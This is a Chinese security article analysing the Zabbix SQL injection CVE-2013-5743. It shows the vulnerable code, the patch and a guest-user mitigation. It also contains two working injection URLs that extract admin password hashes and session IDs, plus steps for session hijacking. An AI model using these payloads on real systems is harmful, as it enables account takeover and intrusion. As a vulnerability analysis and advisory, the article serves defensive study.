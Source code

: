 # Zabbix SQL Injection/RCE – CVE-2013-5743

2013/10/17 12:55 | [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

from:[`www.corelan.be/index.php/2013/10/04/zabbix-sql-injectionrce-cve-2013-5743/`](https://www.corelan.be/index.php/2013/10/04/zabbix-sql-injectionrce-cve-2013-5743/)

## 0x00 背景

* * *

该漏洞于 2013 年 9 月 11 号提交，9 月 23 号得到确认，10 月 2 号发布补丁。

新出的 0day，可以通过 sql 注入直接进入后台，并执行系统命令。

该漏洞已有 metasploit 利用模块，请使用 Zabbix 的公司注意及时打补丁。

## 0x01 利用细节

* * *

该漏洞存在于 httpmon.php 脚本中，未登录用户也可访问。

这是由于 Zabbix 预先设定了一个 guest 用户，未登录用户都被设定为 guest 用户的访问权限。

如果 guest 用户被禁用，将不能访问 httpmon.php 脚本，利用该漏洞。

可以在管理员的管理面板中禁用 guest 用户。

从下图中可以看出来 applications 参数存在 sql 注入。

![enter image description here](img/img1_u60_png.jpg)

查看源代码：

```
foreach ($_REQUEST['applications'] as $application) { 
     add2favorites('web.httpmon.applications', $application); 
     }

```

进入了$application 变量中，跟踪 add2favorites 函数：

```
function add2favorites($favobj, $favid, $source = null) { 
     $favorites = get_favorites($favobj); 
     foreach ($favorites as $favorite) { 
          if ($favorite['source'] == $source && $favorite['value'] == $favid) { 
          return true; 
          } 
     } 
     DBstart(); 
     $values = array( 
          'profileid' => get_dbid('profiles', 'profileid'), 
          'userid' => CWebUser::$data['userid'], 
          'idx' => zbx_dbstr($favobj), 
          'value_id' => $favid,
          'type' => PROFILE_TYPE_ID 
);

```

进入$values 数组的 value_id 中，再往下跟踪就可以发现变量没有经过任何过滤进入到 sql 语句中：

```
return DBend(DBexecute('INSERT INTO profiles ('.implode(', ', array_keys($values)).') VALUES ('.implode(', ', $values).')'));

```

最新，Zabbix 的补丁：

```
Index: frontends/php/include/profiles.inc.php
===================================================================
--- frontends/php/include/profiles.inc.php  (revision 38884)
+++ frontends/php/include/profiles.inc.php  (working copy)
@@ -148,9 +148,9 @@
            'profileid' => get_dbid('profiles', 'profileid'),
            'userid' => self::$userDetails['userid'],
            'idx' => zbx_dbstr($idx),
-           $value_type => ($value_type == 'value_str') ? zbx_dbstr($value) : $value,
-           'type' => $type,
-           'idx2' => $idx2
+           $value_type => zbx_dbstr($value),
+           'type' => zbx_dbstr($type),
+           'idx2' => zbx_dbstr($idx2)
        );
        return DBexecute('INSERT INTO profiles ('.implode(', ', array_keys($values)).') VALUES ('.implode(', ', $values).')');// string value prepearing

if (isset($DB['TYPE']) && $DB['TYPE'] == ZBX_DB_MYSQL) {
    function zbx_dbstr($var) {
        if (is_array($var)) {
            foreach ($var as $vnum => $value) {
                $var[$vnum] = "'".mysql_real_escape_string($value)."'";
            }
            return $var;
        }
        return "'".mysql_real_escape_string($var)."'";
    }

```

变量处理经过了一层 mysql_real_escape_string 函数的过滤。

在上面那个漏洞中，下面的语句可以读取管理员的用户名与密码 md5 的 hash 值：

```
http://zabbix.server/zabbix/httpmon.php?applications=2%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28%28select%28select%20concat%28cast%28concat%28alias,0x7e,passwd,0x7e%29%20as%20char%29,0x7e%29%29%20from%20zabbix.users%20LIMIT%200,1%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29 
```

![enter image description here](img/img2_u59_png.jpg)

成功获取，但是如果管理员的密码过于复杂，md5 碰撞不出来明文的怎么办呢？

发现 Zabbix 的数据库中还保存了用户的 session 值，它们似乎都不会失效，除非用户点击了退出登录。

下图展示了数据库中 sessions 表保存的内容：

![enter image description here](img/img3_u56_png.jpg)

那我们直接注入获取管理员的 session 值，直接登录吧，无需碰撞 md5 的 hash 了。

```
http://zabbix.server/zabbix/httpmon.php?applications=2%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28%28select%28select%20concat%28cast%28concat%28sessionid,0x7e,userid,0x7e,status%29%20as%20char%29,0x7e%29%29%20from%20zabbix.sessions%20where%20status=0%20and%20userid=1%20LIMIT%200,1%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29 
```

![enter image description here](img/img4_u45_png.jpg)

用获取到的 session 替换 cookie 中 zbx_sessionid 中的值：

![enter image description here](img/img5_u48_png.jpg)

然后就登陆成功：

![enter image description here](img/img6_u52_png.jpg)

管理员进入后可以命令执行具体方法 wooyun 上已经有了：

[WooYun: sohu 的 zabbix,可导致内网渗透](http://www.wooyun.org/bugs/wooyun-2013-023089)

也可以直接反弹 shell 执行命令方便很多，具体姿势可以参考：

[反弹 shell 的十种姿势](http://zone.wooyun.org/content/5064)

版权声明：未经授权禁止转载 [瞌睡龙](http://drops.wooyun.org/author/瞌睡龙 "由 瞌睡龙 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：碎银子打赏，作者好攒钱娶媳妇：

![](img/img5_u108_png.jpg)

### 相关日志

*   [RansomWeb:一种新兴的 web 安全威胁](http://drops.wooyun.org/papers/4834)
*   [PHP 安全编码](http://drops.wooyun.org/tips/135)
*   [Python Pickle 反序列化带来的安全问题](http://drops.wooyun.org/papers/66)
*   [BCTF Writeup](http://drops.wooyun.org/papers/1071)
*   [浅谈 PHP 弱类型安全](http://drops.wooyun.org/tips/4483)
*   [一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://drops.wooyun.org/papers/1426)